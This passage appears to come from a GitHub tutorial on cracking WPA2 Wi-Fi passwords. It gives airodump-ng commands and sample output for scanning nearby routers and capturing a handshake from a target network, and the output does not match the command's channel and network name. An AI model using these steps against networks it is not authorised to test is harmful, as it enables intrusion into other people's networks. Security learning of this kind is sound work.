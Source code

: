 Start listening to [802.11 Beacon frames](https://en.wikipedia.org/wiki/Beacon_frame) broadcast by nearby wireless routers using your monitor interface:

```bash
airodump-ng mon0
```

You should see output similar to what is below.

```
CH 13 ][ Elapsed: 52 s ][ 2017-07-23 15:49                                         
                                                                                                                                              
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                              
 14:91:82:F7:52:EB  -66      205       26    0   1  54e  OPN              belkin.2e8.guests                                                   
 14:91:82:F7:52:E8  -64      212       56    0   1  54e  WPA2 CCMP   PSK  belkin.2e8                                                          
 14:22:DB:1A:DB:64  -81       44        7    0   1  54   WPA2 CCMP        <length:  0>                                                        
 14:22:DB:1A:DB:66  -83       48        0    0   1  54e. WPA2 CCMP   PSK  steveserro                                                          
 9C:5C:8E:C9:AB:C0  -81       19        0    0   3  54e  WPA2 CCMP   PSK  hackme                                                                 
 00:23:69:AD:AF:94  -82      350        4    0   1  54e  WPA2 CCMP   PSK  Kaitlin's Awesome                                                   
 06:26:BB:75:ED:69  -84      232        0    0   1  54e. WPA2 CCMP   PSK  HH2                                                                 
 78:71:9C:99:67:D0  -82      339        0    0   1  54e. WPA2 CCMP   PSK  ARRIS-67D2                                                          
 9C:34:26:9F:2E:E8  -85       40        0    0   1  54e. WPA2 CCMP   PSK  Comcast_2EEA-EXT                                                    
 BC:EE:7B:8F:48:28  -85      119       10    0   1  54e  WPA2 CCMP   PSK  root                                                                
 EC:1A:59:36:AD:CA  -86      210       28    0   1  54e  WPA2 CCMP   PSK  belkin.dca
```

For the purposes of this demo, we will choose to crack the password of my network, "hackme". Remember the BSSID MAC address and channel (`CH`) number as displayed by `airodump-ng`, as we will need them both for the next step.

### Capture a 4-way Handshake

WPA/WPA2 uses a [4-way handshake](https://security.stackexchange.com/questions/17767/four-way-handshake-in-wpa-personal-wpa-psk) to authenticate devices to the network. You don't have to know anything about what that means, but you do have to capture one of these handshakes in order to crack the network password. These handshakes occur whenever a device connects to the network, for instance, when your neighbor returns home from work. We capture this handshake by directing `airmon-ng` to monitor traffic on the target network using the channel and bssid values discovered from the previous command.

```bash
# replace -c and --bssid values with the values of your target network
# -w specifies the directory where we will save the packet capture
airodump-ng -c 3 --bssid 9C:5C:8E:C9:AB:C0 -w . mon0
```
```
 CH  6 ][ Elapsed: 1 min ][ 2017-07-23 16:09 ]                                        
                                                                                                                                              
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                              
 9C:5C:8E:C9:AB:C0  -47   0      140        0    0   6  54e  WPA2 CCMP   PSK  ASUS  
```
